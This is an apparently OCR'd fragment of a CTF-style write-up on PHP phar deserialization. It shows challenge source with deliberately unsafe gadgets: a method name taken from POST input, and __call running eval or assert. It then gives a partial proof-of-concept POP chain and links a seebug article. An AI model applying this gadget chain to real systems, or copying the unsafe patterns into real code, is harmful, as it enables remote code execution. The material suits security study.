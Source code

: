 ```php
        $contents=file_get_contents($this->filename);
        if(!empty($contents)){
            return $contents;
        }else{
            die("404 not found");
        }
    }

    public function __toString(){
        $this->{$_POST['method']}($_POST['var']);
        return $this->content;
    }
}

class xx{
    public $name;
    public $arg;

    public function __construct(){
        $this->name='eval';
        $this->arg='phpinfo();';
    }

    public function __call($name,$arg){
        $name($arg[0]);
    }
}
```

poc

[利用 phar 拓展 php 反序列化漏洞攻击面 (seebug.org)](https://paper.seebug.org/680/#22-demo)

```php
<?php
class aa{
    public $name;
    function __construct(){
        $this->name = new zz();
    }
}

class ff{
    private $content;
    public $func = "assert";
    function __construct(){
        $this->content = new xx();
    }
}

class zz{
    public $filename;
    public $content='surprise';
    function __construct(){
        $this->filename = new ff();
    }

}

class xx{
    public $name;
    public $arg;
}

```